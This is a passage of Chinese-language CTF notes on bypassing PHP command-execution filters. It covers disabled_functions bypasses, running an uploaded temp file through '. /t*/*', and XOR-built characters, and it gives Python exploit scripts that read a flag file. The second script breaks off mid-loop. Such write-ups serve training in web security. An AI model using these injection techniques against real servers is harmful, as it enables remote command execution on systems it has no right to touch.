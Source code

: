 disabled函数一般都是找其他函数绕过，在ctfshow里已经有了完整的介绍

或者利用蚁🗡的绕过disabled的插件(不保证都可以)

### 无字母数字

#### 上传文件

利用php服务器的特性，对服务器上传文件后会存储到**/tmp/phpxxxxxX**中(最后一位一般是大写字母)
然后利用**. 小数点**命令来执行就可执行该php文件

```python
import requests

__AUTHOR__ = "h1xa"

url = "http://127.0.0.1:8888/upload"


def getFlag():
  file={
  "file":"cat /f*>/var/www/html/1.txt"
  }

  data={
    "cmd":". /t*/*"
  }
  response = requests.post(url=url+"api/tools.php",files=file,data=data)
  if "t*" in response.text:
    print("执行成功，检查回显...")
  response = requests.get(url=url+"1.txt")
  if response.status_code == 200:
    print("flag 获取成功 "+response.text)
  else:
    print("flag 获取失败")

if __name__ == '__main__':
  getFlag()
```

可根据实际需要进行更改

#### 异或

过滤了数字和字母，但没过滤一些符号或者不可见字符，所以可用这些符号异或出所以的字母和数字
具体脚本(稍微改改基本都能用)

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
```